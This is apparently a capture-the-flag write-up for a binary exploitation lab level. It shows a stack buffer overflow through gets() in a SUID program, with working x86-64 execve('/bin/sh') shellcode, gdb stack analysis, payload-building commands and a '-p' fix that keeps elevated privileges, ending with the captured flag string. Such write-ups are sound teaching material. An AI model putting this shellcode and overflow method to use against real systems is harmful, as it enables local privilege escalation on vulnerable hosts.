




# LEVEL 00

## Resources

- `README`: cryptic quotation of unknown source, probably not a leed
- `./case` program that prompt for a password and grants or forbids access
- `case.c`: source code of `case`

## Case program

The program seems to emulate an authentification program.
The password is written raw in the code.
The result of a successfull authentification is a randomly generated 64 bits token, represented as an hexadecimal string.
As the token is randomly generated it cannot be the flag00 password we are looking for.

## Suid

The case pogram runs with SUID bit enabled, meaning anyone that has permission to run the program will run it as the flag00 user.
Because we are running the program as flag00, any code executed from this program has access to he ~/flag00/.pass.

## Executable stack

```
readelf -l case
```

Output

```
...
GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RWE    0x10
...
```

This command shows that the program was compiled with executable stack option, so if we manage to put the instruction pointer onto a custom payload than we inject on the stack, this payload may be executed.

## Find a buffer where we can inject our custom payload

```
static void auth_loop(void) {
    char credentials[64];

    // ...

    gets(credentials);

    // ...
}
```

We have a direct access to `credentials` buffer, we can then inject what we need inside it from the prompt.

This will take the form of `shellcode`: that is the translation of machine instruction opcodes translated to hexadecimal representation.

As gets is not secured, we can overflow the buffer and overrides the return address.

### Shellcode

Here's the payload we'll inject.

```
BITS 64

section .text
    global _start

_start:
    sub rsp, 0x200                  ; move away stack pointer from current code
                                    ; code will be store in the stack so it may be
                                    ; erased by its own push
    xor rax, rax
    push rax                        ; NULL terminator

    mov rbx, "//bin/sh"             ; 8-bytes, loaded as 64 bits 
    push rbx                        ; save "//bin/sh" onto the stack
    mov rdi, rsp                    ; rdi (1st argument) = pointer to "/bin/sh"

    xor rsi, rsi                    ; argv = NULL
    xor rdx, rdx                    ; envp = NULL

    mov rax, 0x3b                   ; syscall execve = 59
    syscall
```

To generate shellcode :

```
cd ./sol1
nasm -f elf64 payload.asm -o shellcode.o && ld -m elf_x86_64 shellcode.o -o shellcode && rm shellcode.o

# Inspect shellcode
objdump -d shellcode -M intel

# To convert as binary
objcopy -O binary -j .text shellcode shellcode.bin
xxd -i shellcode.bin
```

This give us:

```
unsigned char shellcode_bin[] = {
  0x48, 0x81, 0xec, 0x00, 0x02, 0x00, 0x00, 0x48, 0x31, 0xc0, 0x50, 0x48,
  0xbb, 0x2f, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x53, 0x48, 0x89,
  0xe7, 0x48, 0x31, 0xf6, 0x48, 0x31, 0xd2, 0xb8, 0x3b, 0x00, 0x00, 0x00,
  0x0f, 0x05
};
```
The presence of null bytes (`0x00`) is not an issue for `gets()`, it will keep reading until `EOF` or `\n`. 

We can test this shellcode
```
// main.c
#include <string.h>
int main(void) {
    unsigned char shellcode[] = {0x48, 0x31, 0xc0, 0x50, 0x48, 0xbb, 0x2f, 0x2f,
                                 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x53, 0x48,
                                 0x89, 0xe7, 0x48, 0x31, 0xf6, 0x48, 0x31, 0xd2,
                                 0xb8, 0x3b, 0x00, 0x00, 0x00, 0x0f, 0x05};
    void (*ret)() = (void (*)())shellcode;
    ret();
}
```
```
gcc main.c -z execstack -no-pie -o ./a.out
./a.out
```

## Overwriting the return adress

Let's inspect the stack frame at

```
gdb -n ./case
b auth_loop
r
info frame
```

Output

```
(gdb) info frame
Stack level 0, frame at 0x7fffffffe270:
 rip = 0x401514 in auth_loop; saved rip = 0x401648
 called by frame at 0x7fffffffe280
 Arglist at 0x7fffffffe260, args:
 Locals at 0x7fffffffe260, Previous frame's sp is 0x7fffffffe270
 Saved registers:
  rbp at 0x7fffffffe260, rip at 0x7fffffffe268
```

- Current frame start (saved rbp address) => 0x7fffffffe260
- Saved rip (0x401648) at 0x7fffffffe268 => return address
- Previous frame => \*$rbp = 0x7fffffffe270

Intuitive representation :


We actually have no guarantee that credentials and sid local variables are stored in code order. Usually, compiler will try to store buffer as far as possible from previous frame.

Let's check the actual address of the buffer :

```
(gdb) x/40i $pc
0x401518 <auth_loop+12>:	call   0x4012e4 <create_session>
0x40151d <auth_loop+17>:	mov    %eax,-0x4(%rbp)
...
0x40158f <auth_loop+131>:	lea    -0x50(%rbp),%rax
0x401593 <auth_loop+135>:	mov    %rax,%rdi
0x401596 <auth_loop+138>:	call   0x401160 <gets@plt>
```

The actual adress of the gets buffer is `rbp - 0x50`, meaning not only locals argument are indeed inverted, but the compiler applies 12 bytes padding between sid and buffer (because the buffer address must be respect a 16 bytes alignment).



So the return adress with want to use will be the start of our payload, that is **`0x7fffffffe210`**.

The offset between the buffer and return adress is then ` ret_addr - buff = 0x7fffffffe268 - 0x7fffffffe210 = 0x58`.

That means we need to have a payload of 96 bytes: 88 bytes of payload to overflow until the return address then 8 bytes to override the return address itself.

Let's setup the payload with padding end the address with need to replace at the end.

```
[padding (NOP sled) - X bytes] [shellcode - 38 bytes] [return address - 8 bytes]
```

So we need `96 - 38 - 8 = 50` bytes of padding.



Let's write the address and padding to distinct files
```
# 50 bytes padding
printf 'a%.0s' {1..50} > padding.bin

# 8-bytes return address as little-endian
printf '\x10\xe2\xff\xff\xff\x7f\x00\x00' > retaddr.bin

# Final assembly
cat padding.bin shellcode.bin retaddr.bin > payload.bin
```

Or single line
```
{
  printf '90%.0s' {1..50}
  xxd -p shellcode.bin | tr -d '\n'
  echo -n '00007fffffffe210' | fold -w2 | tac | tr -d '\n'
} | xxd -r -p > payload.bin
```

Copy the exploit to the VM
```
scp -P 4242 ./payload.bin level00@localhost:/home/level00
```

Run the exploit in gdb
```
gdb -n case
set args < payload.bin
r
```

Output
```
...
process 2489 is executing new program: /usr/bin/dash
...
```
There is no point to try running `cat /home/flag00/.pass` from gdb because the `ptrace` ran by gdb to debug the program cancel the `SUID` feature of the program.

Using gdb, we have prooved that our exploit will work, as long as we can resolve the adress where our payload is stored.

So we need to replicate the exploit **without gdb**.

## Expanding the exploit without GDB

Let's try to run the exploit :
```
cat payload.bin | ./case
```
Output
```
...
Illegal instruction (core dumped)
```
This crash indicates that the return address is not valid anymore, meaning it does not points toward the beginning of the credentials buffer. The reason to this is that environment and launch arguments (`argv[]`) are stored at the top of the stack. End when running `./case` from gdb, it will append its own environment variables and cmd line arguments.

### Solution 1 : guessing the adress

We know for sure that the credentials buffer is 16-bytes aligned. So we can try adress such as `ret_addr = 0x7fffffffe210 + (n * 0x10)`.

If GDB was running the program with a smaller environment and shorter argument list (which is not likely) than the bash cmd `./case`, the credentials buffer (when running with `./case`) would be located at a lower stack address, in which case it is likely that the `0x7fffffffe210` return address will hit a `NOP` which would make the exploit works. As it does not, we can assume the credentials buffer is located above `0x7fffffffe210`.



If we iterate adress, rebuild and test our payload for each, we quickly find the correct address:
```
00007fffffffe210 => crash
00007fffffffe220 => crash
00007fffffffe230 => crash
00007fffffffe240 => crash
00007fffffffe250 => no crash
```

### Solution 2 - storing payload in the env

Instead of relying on a launch context-dependent shellcode address, we can store it in the env itself. Because the env is always stored at the top of the stack, variables stack address will be predictible accross multiple run and even multiple program (as long as kernel stack address randomization is disabled, which is the case here).



As we can see, `env` is stored before `argv`, so the stack address of the shellcode variable will not be impacted by the argument list.

However `AT_EXECFN` is stored before `env`, it refers to the path used by the `execve`
 syscall to launch a program, so the length of this path may shift the adress of the shellcode.

**Steps**
1. Adapt the shellcode to remove any null bytes (environment variables are null-terminated strings)
2. Export the shellcode as the `$SHELLCODE` environment variable
3. Run a small program for the sole purpose of identifying the adress of `$SHELLCODE`
4. Write the correct `$SHELLCODE` address as return address in the payload we need to inject
5. Run the exploit

**1. Adapt the shellcode**
```
BITS 64

section .text
    global _start

_start:
    xor rax, rax
    push rax                        ; NULL terminator

    mov rbx, "//bin/sh"             ; 8-bytes, loaded as 64 bits 
    push rbx                        ; save "//bin/sh" onto the stack
    mov rdi, rsp                    ; rdi (1st argument) = pointer to "/bin/sh"

    xor rsi, rsi                    ; argv = NULL
    xor rdx, rdx                    ; envp = NULL

    mov al, 0x3b                   ; syscall execve = 59
    syscall
```

Changes:
- We no more need the rsp substraction (`sub $rsp, 0x200`) as our code is not store in the stack frame anymore.
- Syscall value is written as 8-bits number (`mov rax, 0x3b` became `mov al, 0x32`), removing the `0x00` padding needed for 64-bits numbers.

**2. Export $SHELLCODE variable**

In `./sol2` :
```
nasm -f elf64 payload.asm -o shellcode.o && ld -m elf_x86_64 shellcode.o -o shellcode && rm shellcode.o
objcopy -O binary -j .text shellcode shellcode.bin
xxd shellcode.bin
```
Copy shellcode.bin to the VM:
```
scp -P 4242 shellcode.bin  level00@localhost:/home/level00
```
From the VM:
```
export SHELLCODE=$(cat /home/level00/shellcode.bin)
```

**3. $SHELLCODE address identification**

**On the VM**, let's compile the following small C program:
```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv) {
    char *ptr = getenv("SHELLCODE");
    printf("%p", ptr);
    return 0;
}
```
```
gcc getenv_addr.c -o c4se
```
As the name of the executable will shift the environment addresses, this program name must have the same len of `case`.
```
./c4se 
0x7fffffffe637
```

**4. Write $SHELLCODE address as return address in the payload**

We still need 88 bytes of padding before ovverwriting the return address.

```
{
  printf '90%.0s' {1..88}
  echo -n '00007fffffffe637' | fold -w2 | tac | tr -d '\n'
} | xxd -r -p > payload.bin
xxd payload.bin
```

Copy payload to the VM:
```
scp -P 4242 payload.bin   level00@localhost:/home/level00
```

**5. Run the exploit**

```
cat payload.bin | ./case
```
There is no crash anymore, meaning the exploit works.

However the program return immediately successfully without giving us a shell prompt.

The reason for this lies in the fact that `stdin` is closed when the full `payload.bin` file is injected via the `gets()` (this is actually what stops the `gets()` call). The new `/bin/sh` process then inherit this already closed `stdin`, and as it has nothing to do, it returns immediately.

Here's the solution:
```
(cat payload.bin; cat) | ./case
```
Here, the `./case` program gets its `stdin` from a subshell. As long as the subshell is not closed, the `./case` program that becomes `/bin/sh` will be listening for `stdin` input.

This subshell first feed the `payload.bin` content. Then, rather to close `stdin`, it restarts a `cat` command to keep it open.

As the `./case` program did not received `EOF` it keeps waiting for input until a `\n` is seen. Then it proceeds with starting `/bin/sh` with an open `stdin`.

Let's try to capture the flag :
```
cat /home/flag00/.pass
cat: /home/flag00/.pass: Permission denied
whoami
level00
```

It seems that the SUID capability of the case program **is gone**.

### Fixing the gone SUID

The reason for this is that recent shells are dropping suid rights, unless `-p` is given as argument (https://podalirius.net/fr/reverse-shells/unix-shells-dropping-suid-rights-in-shellcodes/).

So let's adapt the shellcode to add the -p argument :

```
BITS 64

section .text
    global _start

_start:
    xor rax, rax

    ; BUILD STRINGS
    ; BUILD "-p"
    push rax                        ; NULL terminator
    push word "-p"                  ;
    mov rsi, rsp                    ; rsi (2nd argument, pointer to "-p")
    ; BUILD "//bin/sh"
    push rax                        ; NULL TERMINATOR
    mov rbx, "//bin/sh"             ; 8-bytes, loaded as 64 bits 
    push rbx                        ; save "//bin/sh" onto the stack
    mov rdi, rsp                    ; rdi (1st argument) = pointer to "/bin/sh"

    ; BUILD ARGV
    push rax;
    push rsi;
    push rdi;

    mov rsi, rsp; rsi (2nd) argument => pointer to argv

    xor rdx, rdx                    ; envp = NULL

    mov al, 0x3b                   ; syscall execve = 59
    syscall
```

In `./sol2-fix`
```
make 
```
This will copy updated payload to the VM (with hardcoded address of `0x7fffffffe62c`).

Now, from the VM:
```
(cat payload.bin; cat) | ./case
cat /home/flag00/.pass
```
Output
```
czugaihitjx0lys47blkh0qwtzz1c9g6
```
